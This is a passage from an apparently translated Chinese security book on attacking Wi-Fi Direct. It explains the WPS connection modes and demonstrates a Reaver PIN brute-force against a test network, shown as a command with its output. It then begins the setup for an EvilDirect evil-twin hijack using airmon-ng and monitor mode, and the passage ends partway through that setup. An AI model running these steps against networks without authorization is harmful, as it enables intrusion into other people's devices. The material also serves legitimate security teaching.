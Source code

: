在最后阶段，Wi-Fi Direct 依赖 Wi-Fi Protected Setup（WPS）来安全地连接设备。*WPS*是最初为让技术水平较低的家庭用户轻松添加新设备到网络中而创建的协议。WPS 有多种配置方式：推按钮配置（PBC）、PIN 输入和近场通信（NFC）。在*PBC*模式下，组主机有一个物理按钮，按下该按钮后，会广播 120 秒。在这段时间内，客户端可以使用自己的软件或硬件按钮连接到组主机。这使得一个困惑的用户可能按下受害设备（如电视）上的按钮，并将访问权限授予一个外部的潜在恶意设备（如攻击者的智能手机）。在*PIN 输入*模式下，组主机有一个特定的 PIN 码，如果客户端输入该 PIN 码，两个设备会自动连接。在*NFC*模式下，只需轻触两个设备就能将它们连接到网络。

#### 使用 Reaver 进行 PIN 暴力破解

攻击者可以暴力破解 PIN 输入配置中的代码。这种攻击类似于一次点击的钓鱼攻击，你可以在任何支持 Wi-Fi Direct PIN 输入的设备上使用它。

这种攻击利用了八位数 WPS PIN 码中的一个漏洞；由于这个问题，协议泄露了 PIN 码前四位的信息，而最后一位作为校验和，这使得暴力破解 WPS AP 变得容易。请注意，某些设备包含暴力破解保护，通常会阻止那些反复尝试攻击的 MAC 地址。在这种情况下，这种攻击的复杂性增加了，因为你必须在测试 PIN 码时旋转 MAC 地址。

目前，你很少会发现启用 WPS PIN 模式的 AP，因为现成的工具可以暴力破解它们的 PIN 码。一个这样的工具是 Reaver，它已经预装在 Kali Linux 中。在这个例子中，我们将使用 Reaver 来暴力破解 WPS PIN 码。尽管这个 AP 通过速率限制实施了暴力破解保护，但只要有足够的时间，我们应该能够恢复 PIN 码。（*速率限制*限制了 AP 在预定时间内从客户端接受的请求次数。）

```
# 1 **reaver -i wlan0mon -b 0c:80:63:c5:1a:8a -vv**
Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com> 
[+] Waiting for beacon from 0C:80:63:C5:1A:8A
[+] Switching wlan0mon to channel 11
[+] Received beacon from 0C:80:63:C5:1A:8A
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...…
...
[+] Received WSC NACK
[+] Sending WSC NACK
[!] WARNING: 2 Detected AP rate limiting, waiting 60 seconds before re-checking
 ...
[+] 3 WPS PIN: ‘23456780’
```

如你所见，Reaver 1 针对我们的测试网络并开始暴力破解其 PIN 码。接下来，我们遇到了速率限制 2，这严重延迟了我们的进展，因为 Reaver 会在进行下一次尝试前自动暂停。最后，我们成功恢复了 WPS PIN 码 3。

#### EvilDirect 劫持攻击

EvilDirect 攻击的工作原理与本章前面描述的 Evil Twin 攻击非常相似，不同之处在于它针对使用 Wi-Fi Direct 的设备。这种关联攻击发生在 PBC 连接过程中。在这个过程中，客户端发出连接到组主机的请求，并等待其接受。一个具有相同 MAC 地址和 ESSID、在同一信道上运行的攻击者组主机，可以拦截请求，并诱使受害者客户端与它建立连接。

在你尝试此攻击之前，你必须伪装成合法的群组所有者。使用 Wifiphisher 识别目标 Wi-Fi Direct 网络。提取群组所有者的频道、ESSID 和 MAC 地址，然后创建一个新的群组所有者，使用提取的数据进行配置。通过提供比原始群组所有者更强的信号，将受害者连接到你的伪造网络，如前所述。

接下来，终止所有干扰 Airmon-ng 的进程，正如我们在本章前面所做的那样：

```
# **airmon-ng check kill**
```

然后使用 iwconfig 将你的无线接口设置为监视模式：

```
1 # **iwconfig**
   eth0      no wireless extensions.
   lo        no wireless extensions.
  2 wlan0  IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off

3 # **airmon-ng start wlan0**
```
